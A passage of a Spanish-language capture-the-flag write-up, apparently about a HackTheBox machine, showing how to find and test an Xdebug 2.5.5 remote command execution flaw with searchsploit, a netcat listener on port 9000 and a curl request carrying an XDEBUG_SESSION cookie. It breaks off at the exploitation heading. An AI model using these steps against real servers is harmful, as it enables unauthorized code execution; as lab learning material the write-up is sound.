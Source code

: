 
Algo interessante en la respuesta es el Xdebug 2.5.5. Xdebug es una extension de PHP para hacer debug con haremientas
depuracion tradicionales, desde el editor, tal como se hace en lenguajes de programacion clasicos. Mas informaciones sobre
Xdebug en [desarolloweb.com](https://desarrolloweb.com/articulos/que-es-instalar-configurar-xdebug.html)



## Evaluacion de Vulnerabilidades {-}

### searchsploit {-}

Checkeamos si existe un exploit relacionado con **Xdebug 2.5.5**

```bash
searchsploit xdebug
```

Hay un script en Ruby (Metasploit) que permitiria hacer execucion de commandos. Analizamos el exploit con el commando

```bash
searchsploit -x xdebug
```

Que hace el exploit?

- esta tirando de index.php
- se pone en escucha en el equipo de atacante en el puerto 9000
- usa el comando eval 
- deposita en una ruta del servidor un fichero con su contenido en base64
- ejecuta el fichero con php
- la peticion esta enviada por el methodo GET con 
```bash
 'Cookie' => 'XDEBUG_SESSION=+rand_text_alphanumeric(10)' 
```


### Pruebas del exploit {-}

1. Nos ponemos en escucha en el puerto 9000

    ```bash
    nc -nlvp 9000
    ```

1. Enviamos un peticion GET con el XDEBUG_SESSION en cookie

    ```bash
    curl -s -X GET "http://10.10.10.83/index.php" -H "Cookie: XDEBUG_SESSION=EEEEE"
    ```

Recibimos datos del lado del servidor.

### Explotacion de la vulnerabilidad {-}
